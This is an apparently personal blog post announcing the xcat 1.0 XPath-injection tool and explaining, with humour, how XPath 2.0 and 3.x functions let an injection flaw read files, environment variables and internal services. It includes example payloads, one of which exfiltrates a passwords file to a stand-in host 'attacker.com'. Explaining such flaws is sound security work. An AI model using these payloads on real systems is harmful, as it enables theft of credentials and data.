 ```yaml
---
title: "XCat 1.0 released or: XPath injection issues are under appreciated"
date: "2018-12-09T19:58:01Z"
draft: false
tags:
   - projects
   - security
---
```


*tl;dr: XPath injection flaws allow you to exfiltrate a surprising amount of potentially sensitive information, the 
lack of awareness around this and the lack of inbuilt security features makes for a potent mix*

I've just released [xcat 1.0](https://github.com/orf/xcat) and it's
[demonstration application](https://github.com/orf/xcat_app) after like 5 years of on-off development. Feels good!

The genesis of xcat was when my boss, Sid, walked up to me out of the blue and asked if I wanted to go on an all 
expenses paid trip to Amsterdam. Who the hell wouldn't say yes to that proposition? *"Great! you've got a month to write
a research paper on XPath injection flaws and we will present it at Blackhat Europe"*. Wait... slow down! What's XPath?!

As it turns out XPath is what you get when you combine the unholy trinity of **XML**, **design-by-committee** and 
**large quantities of drugs**. But before I get into that here's a short demo of me listing directories, reading 
arbitrary files and dumping environment variables through a simple innocuous XPath injection flaw, using `xcat`:
 
<center>
<script id="asciicast-216044" src="https://asciinema.org/a/216044.js" async></script>
</center>

*I recommend reading a little bit about what XPath is and a little bit about blind injection vulnerabilities.
I wrote [an introduction here](http://localhost:1313/exploiting-xpath-injection-vulnerabilities-with-xcat/) or there 
is the venerable [OWASP page on the topic](https://www.owasp.org/index.php/XPATH_Injection).*


## XPath 1.0

So, back to large quantities of drugs. The year was 1999. Intel had just released the 800 MHZ Pentium III, Internet
Explorer 5.0 was the hot new browser and XML was all the rage.
 
All was not well in the land of XML though: parsing, filtering and generally using it was a huge pain. So some clever
people invented a nice, clean and concise syntax for querying it documents without any hassle:

`//Employee[UserName/text()='tom']`

Cool! This seems a lot simpler and more flexible than whatever manual parsing/iteration you'd come up with
in `$FAVORITE_LANGUAGE`. And this was XPath, the people rejoiced and the world was good.

Until 2010.

## XPath 2.0

It was decided in 2010 that XPath 1.0 was too simple. What it clearly, *clearly* lacked was a weird type system
(it's both strongly and weakly typed), a [greatly expanded type heirachy](https://upload.wikimedia.org/wikipedia/commons/9/91/XQuery_and_XPath_Data_Model_type_hierarchy.png)
(seriously go look at that), `isinstance` checks, casting and a much larger function library.

Now don't get me wrong: some of these are good changes. But what snuck into this version is the 
[fairly innocuous  `doc` function](https://maxtoroq.github.io/xpath-ref/fn/doc.html). Seems simple - you can reference 
external XML files in your query (almost like a join) and I'm sure there are use cases for this.

This function jumped right out at me when I was struggling 
[through the very, very dense XPath specification](https://www.w3.org/TR/xpath20/), wondering if I should just buy my
own bloody holiday to Amsterdam. What does `doc('https://attacker.com/xxe.xml')` do? Or
`doc('ftp://internalserver/passwords.xml')`? Or, heck, even `doc('gopher://server/something')`?

Turns out it does what you would expect. It makes the request. So now if you find an exploitable XPath injection flaw 
you can make arbitrary network requests for any XML-like document you can find. If your internal services respond with 
HTML that parses as XML that's great! Or how about if all your Java/.NET configuration files are in XML, storing all 
those juicy database passwords? That's even better! **We can now read them and download them via any XPath 2.0 injection 
issue.**

Other than this the interesting thing is you can use this function to exfiltrate large quantities of data really 
quickly. The specification very nicely includes [an `encode-for-uri` method](https://maxtoroq.github.io/xpath-ref/fn/encode-for-uri.html), 
so we could just do:

`doc(string-join('http://attacker.com/?d', encode-for-uri(doc('passwords.xml')/some-node)))`

Another cool issue is [external entity injection](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing). 
The tl;dr is you can serve up a malicious XML file that is requested by `doc()` that can read arbitrary files on the filesystem!

Awesome! [xcat implements these attacks](https://xcat.readthedocs.io/en/latest/OOB-server/) by the way.

The real kicker here is:

- You need to explicitly configure your XPath engine to protect against all of this, which inevitably nobody does because 
  nobody expects it. It's just a simple query language, right?
  
- There is no concept of parameterized queries like you have in every SQL adapter. It has to be done manually, and 
  it has to be done **correctly in every input**. If you miss something then you're vulnerable to all of this!
  
And this was XPath 2.0. Tom got to go to Amsterdam and
[present at Black Hat Europe](https://media.blackhat.com/bh-eu-12/Siddharth/bh-eu-12-Siddharth-Xpath-Slides.pdf), and 
the world was good.

Until 2014. At which point the drugs really kicked in.

## XPath 3.0/3.1

It was decided in 2014 that XPath 2.0 was too simple. What it clearly, *clearly* lacked was dynamic function calls,
for loops, introspection, array map/filter/reduce, associative arrays, 
[**dynamic module loading**](https://maxtoroq.github.io/xpath-ref/fn/load-xquery-module.html), JSON parsing, 
inline functions, exceptions and tracebacks.

So now our lovely, simple XPath has evolved into:

```
for-each(normalize-unicode(upper-case(json-doc('x.json'))) => tokenize("\s+"),
         function($a) {
            let $a := $a * 10
            load-xquery-module('abc'):some-func(
                        function-lookup($a, 1)(array:map($a, function($b) {
                                let $c := unparsed-text-lines($b)
                                trace($c)
                                if ($c) {
                                    return xml-to-json($b)
                                } else {
                                    error('This is an error')
                                }
                        })) 
            }
)
```

Yay! The future is here! Can you smell the progress?

Aside from trying to turn XPath into some JavaScript-esque abomination they also added three interesting functions:

* [unparsed-text](https://maxtoroq.github.io/xpath-ref/fn/unparsed-text.html)
* [environment-variable](https://maxtoroq.github.io/xpath-ref/fn/environment-variable.html)
* [json-doc](https://maxtoroq.github.io/xpath-ref/fn/json-doc.html)

With these we **can read any arbitrary text files**, and iterate through **all environment variables**.

Also if your internal webservice speaks JSON, well then buddy you're in luck! A simple XPath injection flaw can let the 
attacker read all of those responses using the handy JSON functions introduced in 3.1.

So by utilizing the same injection flaw and the same out-of-bound attack discussed above we can exfiltrate any readable 
file on the filesystem, or network, quickly and cleanly.

## Summary

I'm sure they are already working on XPath 4.0. I wonder if they will add access to sockets, I think it's really lacking 
in that area.